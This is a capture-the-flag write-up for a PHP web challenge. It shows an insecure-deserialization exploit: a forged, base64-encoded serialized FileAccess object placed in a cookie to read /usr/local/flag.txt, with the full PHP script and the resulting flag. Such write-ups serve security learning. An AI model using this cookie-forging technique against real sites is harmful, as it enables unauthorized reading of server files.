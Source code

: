 # Authentication 

> Category: Web

> Points: 80

## Challenge Description

> translated: While researching the internet, Ana discovered an inovative way to log into her system as an admin without the need of any username or password. Content with her discovery, she has saved a very interesting information on /usr/local/flag.txt, but to access that information you need to sign in as admin.

> native: Istraživajući internet, Ana je otkrila inovativni način kako se prijaviti u sustav kao admin bez da je potrebno ikakvo korisničko ime ili lozinka. Zadovoljna svojim otkrićem, spremila je vrlo zanimljivu informaciju na /usr/local/flag.txt, no za pristup toj informaciji potrebno je prijaviti se u sustav kao admin. 

## Analysis

Without even opening the website, this sounds like an another cookie based task.

![decrypted](website.png)

Opening inspect element and going to the Storage tab, we find a cookie named "message" with an interesting value.

![decrypted](method_00.PNG)

Since we have the source files of the site, we can look into that. Inside "evenmoresecure.php" there's an IF statement looking at the cookie, and then a PHP getfile statement. ```<p><?php print(unserialize(base64_decode($_COOKIE["message"]))->get_file());?></p>```

We will use base64decode.net to see what that message really is.

![decrypted](method_01.PNG)

So this is a FileAccess class which has a set filename to "/usr/local/default.txt".

So, the obvious route will be to create that class but with a different filename ("/usr/local/flag.txt"), serialize it and encode it in base64.

This is our code, that we will run in an online PHP sandbox; https://sandbox.onlinephpfunctions.com/

```php
<?php
class FileAccess {
    private $filename;
    function set_filename($filename){
        $this->filename=$filename;
    }
    function get_file(){
        return file_get_contents($this->filename);
    }
}

$defaultFileAccess = new FileAccess();
$defaultFileAccess->set_filename("/usr/local/flag.txt");

print(base64_encode(serialize($defaultFileAccess)))

?>
```

After getting the encoded serialized class, we will swap the cookie out, refresh the website and voila :)

![decrypted](solution.png)


## FLAG

> CTF2021[254352283512]